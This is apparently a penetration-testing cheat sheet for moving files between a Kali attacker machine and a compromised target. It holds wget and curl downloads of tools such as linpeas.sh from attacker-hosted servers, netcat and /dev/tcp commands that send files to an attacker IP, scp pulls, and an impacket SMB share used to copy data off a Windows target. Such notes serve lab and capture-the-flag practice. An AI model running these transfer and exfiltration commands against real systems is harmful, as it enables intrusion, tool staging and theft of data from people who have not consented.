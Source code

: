 

**0x01 wget**

- KALI
```bash
sudo python -m http.server 8888
sudo php -S 192.168.15.129:8888
```

```bash
wget http://192.168.55.3:8888/[PATH]
```

```bash
wget -m ftp://anonymous:xxx@[IP/Domain]
```


**0x02 nc**

```bash
nc -lvvp <port> > <FILE>   
cat <FILE> | nc <IP> <port>

nc -lvvp <port> > <FILE>  
cat <FILE> > /dev/tcp/<IP>/<PORT>  (Target without nc)
```

**0x03 curl**

```bash
curl -# -O http://192.168.55.3/linpeas.sh
```


**0x04 SCP**

```shell
scp first_stage@192.168.15.133:/home/mhz_c1f/Paintings/* ./

scp [PATH] cjk@192.168.55.3:~/tmp
```

**SAMBA**

- Kali > Target
```
locate sambashare
/usr/share/doc/python3-impacket/examples/smbserver.py
```

```
sudo python /usr/share/doc/python3-impacket/examples/smbserver.py share .
```

- Target > Kali
```bash
/usr/share/doc/python3-impacket/examples/smbserver.py share . -user xekoner -pass xekoner -smb2support
net use \\10.10.14.18\share /u:xekoner xekoner 
copy xxx \\10.10.14.18\share
```

**pscp**

Kali 下载 Windows 上的文件
```bash
pscp USER@IP:REMOTEPATH LOCALPATH
```

